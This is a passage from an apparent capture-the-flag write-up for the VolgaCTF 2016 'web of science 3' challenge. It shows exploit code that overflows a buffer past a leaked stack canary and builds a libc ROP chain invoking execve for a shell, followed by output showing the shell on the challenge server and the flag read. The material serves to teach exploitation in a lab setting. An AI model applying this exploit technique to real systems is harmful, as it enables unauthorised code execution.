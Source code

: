 # Padding
payload  = 'A' * 40
payload += pack(canary)
payload += 'B' * 8
# 0x000000000001b218 : pop rax ; ret
payload += pack(libc_base + 0x1b218)
payload += pack(59)
# 0x0000000000022b1a : pop rdi ; ret
payload += pack(libc_base + 0x22b1a)
payload += pack(libc_base + 1559771)
# 0x0000000000024805 : pop rsi ; ret
payload += pack(libc_base + 0x24805)
payload += pack(0)
# 0x0000000000001b8e : pop rdx ; ret
payload += pack(libc_base + 0x1b8e)
payload += pack(0)
# 0x00000000000c1e55 : syscall ; ret
payload += pack(libc_base + 0xc1e55)
r.sendline(payload)
# Exit
r.sendline('5')
r.clean()
r.interactive()
{% endhighlight %}

And *voilà*
{% highlight shell-session %}
$ ./payload.py 
[+] Opening connection to webofscience3.2016.volgactf.ru on port 45680: Done
[+] Bruteforcing the SHA1: Found: 1a111e121218191113191617\x00\x00\xbcGÒ
                                                                        [*] leaked stack ptr: 0x7ffc174c16e0
[*] leaked libc ptr:  0x7ff35b6f69e0
[*] leaked canary:    0x911a16c1ab890b00
[*] Switching to interactive mode


Choose command to perform
[1]. Add paper
[2]. Delete paper
[3]. List papers
[4]. View paper info
[5]. Exit

> 

$ ls
flag_wos3.txt
install
killer_wos3
libc.so.6
server
start_wos3
web_of_science3
$ cat flag_wos3.txt
VolgaCTF{DEP_and_@SLR_may_be_usel3ss}

[perm]: https://docs.python.org/2/library/itertools.html#itertools.permutations